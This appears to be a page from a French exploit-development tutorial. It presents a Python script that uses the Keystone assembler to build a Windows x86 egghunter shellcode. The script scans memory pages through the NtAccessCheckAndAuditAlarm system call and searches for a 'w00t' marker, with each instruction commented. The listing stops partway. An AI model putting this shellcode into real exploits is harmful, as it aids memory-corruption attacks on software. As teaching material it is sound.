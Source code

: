 Code complet :

```py
from keystone import *

CODE = (
#
#
" loop_inc_page:    "
  # Operation `OR` sur le registre `DX` (`EDX`)
  # Va faire pointer `EDX` sur la dernière adresse de la page mémoire
"  or dx, 0x0fff  ;" 
#
#
" loop_inc_one:    "
  # Operation `INC` sur le registre `EDX`
  # Incrémenter `EDX` de `1` pour pointer sur une nouvelle page mémoire
"  inc edx    ;"  
#
#
" loop_check:     "
  # On positionne le contenu du registre `EDX` sur la pile
  # Non nécessaire, mais permet d'assurer une sauvegarde, car on ne peut pas garantir que EDX sera restauré a la suite de l'appel système
"  push edx   ;"
  # On positionne `0x2` sur la pile. 0x2 est le numéro de l'appel système NtAccessCheckAndAuditAlarm
"  push 0x2    ;" 
  # On positionne le dernier élément de la pile (`pop`) qui est donc `0x2` qu'on vient de mettre dans la pile dans le registre `EAX`
  # Le numéro de l'appel système est dans `EAX`
"  pop eax    ;" 
  # Le numéro de l'appel système est dans `EAX` et `EDX` contient un faux pointeur
  # On invoque l'appel système va `INT`
"  int 0x2e   ;" 
  # On compare `AL` (registre du bas de `EAX`) avec `05` pour éviter le *null bytes*
"  cmp al,05   ;" 
  # On restaure l'adresse mémoire depuis la pile dans `EDX`
"  pop edx    ;" 
#
#
" loop_check_valid:   "
  # Jump conditionnel qui va se baser sur le résultat de l'opération `CMP`
    # Si un `STATUS_ACCESS_VIOLATION` a été trouvé, on se déplace à la prochaine page mémoire en faisant un jump vers le début de notre script pour refaire les étapes précédentes
    # Si la mémoire est mappée ou qu'on a accès on continue pour aller vérifier notre signature unique (*egg*)
"  je loop_inc_page ;"
#
#
" is_egg:      "
  # On place note *egg* (ici `w00t` mais ça pourrait être autre chose) dans le registre `EAX`
"  mov eax, 0x74303077 ;" 
  # On copie l'adresse présente dans `EDX` dans `EDI`
"  mov edi, edx  ;" 
  # Compare la valeur stockée dans `EAX` avec le 1er DWORD de l'adresse mémoire sur laquelle pointe `EDI` (qui contient maintenant l'adresse stockée dans `EDX` à laquelle l'appel système a pu accéder)
  # On vérifie ainsi si l'adresse mappée identifiée via l'appel système contient l'*egg* ou pas
    # Mets à jour le registre `ZF` en fonction du résultat de la comparaison
    # Incrémenter automatiquement `EDI` de 1 DWORD
"  scasd    ;" 
  # Jump conditionnel dépendant du résultat de la comparaison via `scasd`
```